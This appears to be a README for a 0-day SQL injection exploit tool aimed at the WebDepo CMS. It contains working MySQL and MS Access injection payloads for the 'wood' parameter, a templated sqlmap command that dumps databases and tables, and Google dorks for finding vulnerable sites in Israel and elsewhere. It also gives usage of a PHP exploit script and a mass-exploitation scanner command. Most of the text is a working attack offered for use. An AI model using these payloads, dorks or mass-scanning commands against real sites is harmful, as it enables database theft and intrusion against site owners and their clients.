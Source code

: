 - 0DAY WebDepo SQL injection /INURL-BRASIL
------
>MINI 3xplo1t-SqlMap - (0DAY) WebDepo -SQL injection

```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```
-   VENTOR:       http://www.webdepot.co.il

-   Vulnerability Description
------
Records and client practice management application
CMS WebDepo suffers from multiple SQL injection vulnerabilitie.

-   Tool Description
------
Automation script explores targets with the help of SqlMap tool
Execute command SqlMap
```
python {$params['folder']} -u '{$params['target']}/text.asp?wood=1' -p wood --batch --dbms=MySQL {$params['proxy']} --random-agent --answers='follow=N' --dbs --tables
```
- GET VULN
------
SQL can be injected in the following GET
```
GET VULN:     wood=(id)
$wood=intval($_REQUEST['wood'])
Ex: http://target.us/text.asp?wood=1
``` 
  
- XPL inject DBMS: 'MySQL'
------
```
Exploit:  +AND+(SELECT 8880 FROM(SELECT COUNT(*),CONCAT(0x496e75726c42726173696c,0x3a3a,version(),(SELECT (CASE WHEN (8880=8880) THEN 1 ELSE 0 END)),0x717a727a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
http://target.us/text.asp?wood=(id)+Exploit
``` 

- XPL inject DBMS: 'Microsoft Access'
------
```
Exploit: +UNION+ALL+SELECT+NULL,NULL,NULL,CHR(113)&CHR(112)&CHR(120)&CHR(112)&CHR(113)&CHR(85)&CHR(116)&CHR(106)&CHR(110)&CHR(108)&CHR(90)&CHR(74)&CHR(113)&CHR(88)&CHR(116)&CHR(113)&CHR(118)&CHR(111)&CHR(100)&CHR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM MSysAccessObjects%16
http://target.us/text.asp?wood=(id)+Exploit
``` 

- GOOGLE DORK
------
```
inurl:"text.asp?wood="
site:il inurl:"text.asp?wood="
site:com inurl:"text.asp?wood="
```

- COMMAND --help:
------
```
   -t : SET TARGET.
   -f : SET FILE TARGETS.
   -p : SET PROXY
   Execute:
                 php WebDepoxpl.php -t target
                 php WebDepoxpl.php -f targets.txt
                 php WebDepoxpl.php -t target -p 'http://localhost:9090'
```
 
- EXPLOIT MASS USE SCANNER INURLBR
------
``` 
./inurlbr.php --dork 'inurl:text.asp?wood=' -s 0dayWebDepo.txt -q 1,6 --exploit-get "?´'0x27" --comand-vul "php WebDepoxpl.php -t '_TARGET_'"
``` 

- DOWNLOAD INURLBR
------
https://github.com/googleinurl/SCANNER-INURLBR

- REFERENCE
------
[1] http://blog.inurl.com.br/2015/03/0day-webdepo-sql-injection.html

[2] https://msdn.microsoft.com/en-us/library/ff648339.aspx
 

